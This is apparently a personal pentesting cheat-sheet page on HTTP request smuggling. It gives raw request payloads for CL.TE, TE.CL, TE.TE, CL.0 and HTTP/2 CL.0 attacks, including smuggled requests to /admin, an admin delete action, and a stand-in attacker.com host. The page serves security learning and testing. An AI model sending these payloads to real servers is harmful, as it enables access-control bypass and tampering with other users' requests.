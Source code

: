 ```yaml
---
title: HTTP Request Smuggling
description: It is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users.
tags:
    - Web
refs:
    - https://portswigger.net/web-security/request-smuggling
date: 2023-06-10
draft: false
---
```


## Investigation

Assume the website has the following HTTP specification.

```bash
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=admin&password=admin
```

If we change **"Content-Length"** to **"Transfer-Encoding"** as follow, the data is sent in chunks to server. Each chunk consists of the chunk size in bytes (it is expressed in hexadecimal). 

The message is terminated with a chunk of size zero.

```bash
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

1d
username=admin&password=admin
0
```

By the way, **Transfer-Encoding** header is not allowed in **HTTP/2**.

<br />

## Exploitation Automatically

BurpSuite has the useful extension **“HTTP Request Smuggler”**.

<br />

## CL.TE (Content-Length . Transfer-Encoding)

The front-end server uses “Content-Length” header and the back-end server uses “Transfer-Encoding” header.

Send the following request twice.

```bash
POST /item HTTP/1.1
Host: example.com
Content-Length: 9
Transfer-Encoding: chunked

0

EVIL
```

If the response delays, we may be able to request smuggling.

### Exploitation

The front-end server uses the “Content-Length” header, so 

```bash
POST /item HTTP/1.1
Host: example.com
Content-Length: 9
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: example.com
Foo: xGET / HTTP/1.1
Host: example.com
```

<br />

## TE.CL (Transfer-Encoding . Content-Length)

The front-end server uses **“Trans-Encoding”** header and the back-end server uses **“Content-Length”** header.  
Send the following request twice.

If you use BurpSuite, check the **“Update Content-Length”** option is unchecked to avoid BurpSuite automatically changes the Content-Length depending on data sent.

```bash
POST  HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

4
EVIL
0
```

If the response delays, we may be able to request smuggling.

### Exploitation

Send the following request twice.

```bash
POST / HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

<br />

## TE.TE (Transfer-Encoding . Transfer-Encoding)

Both the front-end server and the back-end server support the **“Transfer-Encoding”** header but one of the servers can be induced not to process it by obfuscating the header.

```bash
Transfer-Encoding: xchunked

Transfer-Encoding: chunked
Transfer-Encoding: x
```

<br />

## CL.0 (Content-Length: 0)

If the target website ignores the Content-Length, you’re able to access the restricted page by request smuggling.

### 1. Prepare the Two Same Requests

If you're using Burp Suite, send the target request to **Repeater** twice.

### 2. Change the First Request to POST Request

### 3. Set the "Content-Length: 0" in the First Request

### 4. Set the "Connection: keep-alive" in the First Request

Now two requests should look like:

```sh
# Request 1
POST / HTTP/1.1
Host: example.com
Cookie: key=value
Connection: keep-alive
Content-Length: 0

GET /admin/delete?username=john
Foo: x

# -------------------------------------------------

# Request 2
GET / HTTP/1.1
Host: example.com
Cookie: key=value
Connection: close
```

### 5. Send Requests in Order

First off, if you're using Burp Suite, note that **enabling the "Update Content-Length" in the Burp Repeater option.**
The sequence is Request 1 -> Request 2.

<br />

## HTTP/2 CL.0 (Content-Length: 0)

### 1. Prepare Request

If you're using Burp Suite, note that **disable "Update Content-Length" and enable "Allow HTTP/2 ALPN override" in the Burp Repeater option.**

The request shoud look like:

```sh
POST / HTTP/2
Host: example.com
Content-Length: 0

GET /exploit HTTP/1.1
Host: attacker.com
Content-Length: 5

x=1
```

### 2. Send Request

Before doing, don't forget to **expand the Inspector on the right in the Repeater and select "HTTP/2".**  
Now send the request a few times.
